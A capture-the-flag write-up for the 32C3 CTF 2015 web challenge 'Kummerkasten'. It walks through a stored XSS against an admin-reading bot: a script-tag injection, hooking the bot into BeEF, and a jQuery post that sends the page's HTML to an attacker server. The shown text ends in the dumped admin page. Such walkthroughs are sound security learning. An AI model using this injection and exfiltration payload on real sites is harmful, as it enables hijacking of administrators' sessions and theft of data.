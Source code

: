 # 32C3 CTF 2015 : Kummerkasten

**Category:** Web
**Points:** 300
**Solves:** 61
**Description:**

> Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site <http://136.243.194.46/>
>
>
> Please note: This challenge does not follow the flag format.
>
>
> Hints:
>
> To build the flag, concatenate both parts and omit '32C3_'


## Write-up

by [0xBADCA7](https://github.com/0xBADCA7)

Strangely, this 32c3 CTF task weighted 300 points (while *ITD* was "only" 150) however it was a ~~simple~~ straightforward XSS. You're given a page like this: ![](http://i.imgur.com/7vUobWP.png)

*Your team* is nearly arbitrary (just a basic filter) and the injectable field is the message itself. It is possible to inject `<script src="yourstuff.js"></script>` right away. Clearly, there's a bot reading all the messages so the first thing right off the bat I did was to hook in [BeEF](http://beefproject.com/). The bot appeared in the logs shortly and then disconnected. I wasn't really disappointed as the original page already contained jQuery code so coding payloads would be a cakewalk.

First I dumped the current page the bot was seeing:

```javascript
$.post('http://myserver', {'a': btoa($('body')[0].innerHTML)})
```

The bot returned this:

```html
<script src="js/jquery-2.1.4.min.js"></script>
<script src="js/bootstrap.min.js"></script>
<script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;">
	<ul class="nav navbar-nav navbar-right">
	  <li class="token"><a href="/admin/token">HACK - Token</a></li>
```